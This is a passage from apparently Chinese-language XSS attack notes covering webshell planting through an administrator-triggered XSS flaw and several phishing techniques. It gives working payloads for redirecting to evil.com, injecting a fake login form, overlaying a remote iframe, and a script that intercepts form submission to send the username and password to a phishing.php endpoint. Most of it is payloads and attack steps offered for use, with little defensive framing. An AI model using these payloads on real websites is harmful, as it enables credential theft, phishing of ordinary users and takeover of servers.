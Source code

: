   * 将js代码转换为数字
  ```bash
  curl -i http://abc.com --user-agent "<script>eval(String.fromCharCode(....))</script>"
  ```
  
* **获取webshell**

  * 首先需要含有xss漏洞的网页
  * 上传一份图片码或者其他一句话木马
  * 当管理员触发后台xss漏洞时，会劫持管理员在后台备份数据库，其中一句话也被备份进去
  * 使用C2远控软件控制

### 【网路钓鱼】

* **钓鱼方式**
  * xss重定向钓鱼：
  将当前页面重定向到一个钓鱼网站，从而进行诈骗活动
  exploit：
  ```
  http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
  ```
  
  * HTML注入钓鱼:
  直接利用xss漏洞将html/javascript代码注入到页面中
  exploit：
  ```html
  http://www.bug.com/index.php?search="'<html><head><title>login</title></head>
  <body><div style="test-align: cneter;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br /><input name="login" /><br />Password:<br /><input name="password" type="password" /><br /><br /><input name="Valid" value="ok" type="submit" /><br /></form></div></body></html>
  ```
  
  * XSS跨框架钓鱼：
  通过<iframe>标签嵌入一个远程页面实施钓鱼，页面依然会停留在当前域名下
  exploit：
  ```html
  http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"></iframe>
  ```
  
* **XSS phishing**
  * 首先创建钓鱼页面，一般时网页登录页面，并且修改上传目标
  * 搭建记录信息的远程服务器，当输入账号密码时写入logfile.txt文件里，并且使用php的header()函数实现页面跳转
  * 最后写入xss代码，用户访问这个链接时，会远程加载xss.js文件，会创建一个iframe框架覆盖页面，要求用户输入账号密码，输入后返回正常页面
  * 账号密码会保存在logfile.txt中

* **高级钓鱼技术**
  * 直接读取用户账号密码（httponly使用）
  exploit：
  ```js
  <script>
  Form=document.forms["userslogin"];
  Form.onsubmit=function(){
  var iframe=document.createElement("iframe");
  iframe.style.display="none";
  alert(Form.user.value);
  iframe.src="http://127.0.0.1/phishing.php?user="+Form.user.value+"&pass="+Form.pass.value;
  document.body.appendChild(iframe);
  }
  </script>
  ```
  